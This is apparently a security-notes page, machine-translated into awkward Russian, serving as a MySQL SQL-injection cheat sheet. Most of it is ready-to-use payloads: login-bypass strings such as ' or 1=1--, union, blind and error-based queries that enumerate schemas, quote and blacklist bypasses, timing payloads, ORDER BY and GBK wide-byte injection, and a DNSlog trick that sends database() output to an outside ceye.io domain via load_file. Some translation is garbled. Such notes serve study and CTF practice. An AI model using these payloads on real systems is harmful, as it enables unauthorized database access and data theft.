

[RU](./sqli.md) | [EN](./sqli-zh.md)

## Oсновная концепция

- SQL-инъекция - это входной параметр, который вставляет или добавляет код SQL в приложение (пользователя), а затем передает эти параметры внутреннему серверу SQL для анализа и выполнения.
- Злоумышленник может изменить оператор SQL, который имеет те же разрешения, что и компонент, выполняющий команду, например сервер базы данных, сервер приложений или веб-сервер.
- SQL-инъекция обычно происходит, если разработчик веб-приложения не может гарантировать, что значение, полученное из веб-формы, файлов cookie, входных параметров и т. Д., Будет передано в запрос SQL (который выполняется на сервере базы данных) до того, как он будет проверен на уязвимости.

## Общие инструменты

- Burp Suite: [Введение в Burp Suite](<http://drops.xmd5.com/static/drops/tools-1548.html>)
- Tamper Data (Firefox надстройка)
- HackBar (Firefox надстройка)
- sqlmap: [руководство пользователя sqlmap](<http://drops.xmd5.com/static/drops/tips-143.html>)

## Ввод общих параметров

- `user()`: текущий пользователь базы данных
- `database()`: имя текущей базы данных
- `version()`: текущая используемая версия базы данных
- `@@datadir`: путь к данным хранилища базы данных
- `concat()`: данные объединения, используемые для объединения двух результатов данных. Например, `concat(username,0x3a,password)`
- `group_concat()`: аналогично `concat()`, например `group_concat(DISTINCT+user, 0x3a, password)`, используется для одновременного ввода нескольких частей данных
- `concat_ws()`: использование аналогично
- `hex()` и `unhex()`: для шестнадцатеричного кодирования и декодирования
- `load_file()`: прочитать файл как текст. В Windows путь установлен на \\
- `select xxoo into outfile &#39;path&#39; `: может записывать файлы напрямую при высоком разрешении

## Справочник по грамматике и советы

### Межстрочные заметки

-   `--`
```sql
DROP sampletable;--
```
-   `#`
```sql
DROP sampletable;#
```

### Встроенный комментарий

- `/* comment content */`
```sql
DROP/*comment*/sampletable` DR/**/OP/* bypass filtering */sampletable` SELECT/* replace spaces */password/**/FROM/**/Members
```
- `/*! MYSQL exclusive*/`
```sql
SELECT /*!32302 1/0, */ 1 FROM tablename
```

### Kодировка строки

- `ASCII()`: вернуть значение ASCII символа
- `CHAR()`: преобразует целое число в соответствующий символ

## Универсальный пароль Backstage

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- Войти как разные пользователи `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## Памятка по впрыску

### Имя хранилища данных

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### Имя таблицы

- union query
```sql
--version=9 for MySQL 4 and version=10 for MySQL 5
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; /* Lists the tables in the current database*/
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database(); /* Lists tables in all user-defined databases*/
    SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
```
- blind
```sql
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
```
- Error
```sql
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
-- Successful in version 5.1.5.
```

### Название столбца

- union query
```sql
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
```
- blind
```sql
AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```
- Error
```sql
-- Successful in version 5.1.5
AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
-- MySQL 5.1 has been fixed
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
```
- Use `PROCEDURE ANALYSIS ()`
```sql
-- Для этого требуется отображаемая в Интернете страница с полем для введенного вами запроса.
-- Получить имя первого абзаца
SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
-- Получите имя второго раздела
1 LIMIT 1.1 PROCEDURE ANALYSIS ()
-- Получить название третьего абзаца
1 LIMIT 2.1 PROCEDURE ANALYSIS ()
```

### Запросить таблицу по имени столбца

```sql
-- Запросите таблицу с именем пользователя
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- Запросить таблицу, содержащую имя пользователя в имени поля
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

### Обход цитат

```sql
-- шестнадцатеричное кодирование
SELECT * FROM Users WHERE username = 0x61646D696E
-- функция char()
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

### Обход строкового черного списка

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

Когда используется `CONCAT()`, любой аргумент имеет значение NULL и вернет NULL. Рекомендуется использовать `CONCAT_WS()`. Первый аргумент функции `CONCAT_WS()` указывает, какой символьный интервал используется для запроса результата.

### Условные утверждения

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### Функция задержки

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### заказ по пост инъекции

`order by` Поскольку это оператор сортировки, вы можете использовать условный оператор для вынесения суждений и оценки истинных и ложных условий в соответствии с возвращенным результатом сортировки. Переменные с `order` или `order by`, вероятно, являются своего рода инъекциями. Когда вы знаете поле, вы можете сделать следующее:

Исходная ссылка: <http://www.test.com/list.php?order=vote>

Сортировать по полю для `vote`. Найдите билет с наибольшим количеством голосов и создайте следующую ссылку:

```sql
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

Посмотрите, изменится ли сортировка. Есть еще один способ не знать никакой информации о полях, используя функцию `rand`:

```sql
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
```

Вышеупомянутые два возвращают разные сортировки, и оператор, который определяет, меньше ли первый символ в имени таблицы 128, выглядит следующим образом:

```sql
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### Внедрение широких байтов

Наиболее часто используемый код GBK в стране, этот способ в основном предназначен для обхода передачи специальных символов, таких как `addslashes`. Косая черта после косой черты `\` -`%5c`. Когда вы набираете `%bf%27`, функция обнаруживает одинарные кавычки и автоматически переходит в `\`, который становится `%bf%5c%. 27`,`%bf%5c`
В GBK это становится широким знаком «缞». `%bf` Позиция может быть любым символом в середине `%81-%fe`. Не только в SQL-инъекции, инъекция широких символов может применяться во многих местах.

### Внедрение DNSLOG

**DNS оставит журнал при синтаксическом анализе и получит информацию, прочитав журнал синтаксического анализа многоуровневого доменного имени. Проще говоря, поместите информацию в расширенное доменное имя, передайте ее себе, затем прочтите журнал и получите информацию.**

Платформа Dnslog: [http://ceye.io/](http://ceye.io/)

```sql
mysql> use security;
Database changed
mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)
mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```



## Рекомендации

- [SQL Injection Cheat Sheet](<http://drops.xmd5.com/static/drops/tips-7840.html>)
- [MySQL Injection Tips](<http://drops.xmd5.com/static/drops/tips-7299.html>)
- [MySQL Injection Science](<http://drops.xmd5.com/static/drops/tips-123.html>)
- [MySQL Injection Summary](<http://www.91ri.org/4073.html>)
- [SQL Injection Attack and Defense](<http://product.dangdang.com/23364650.html>)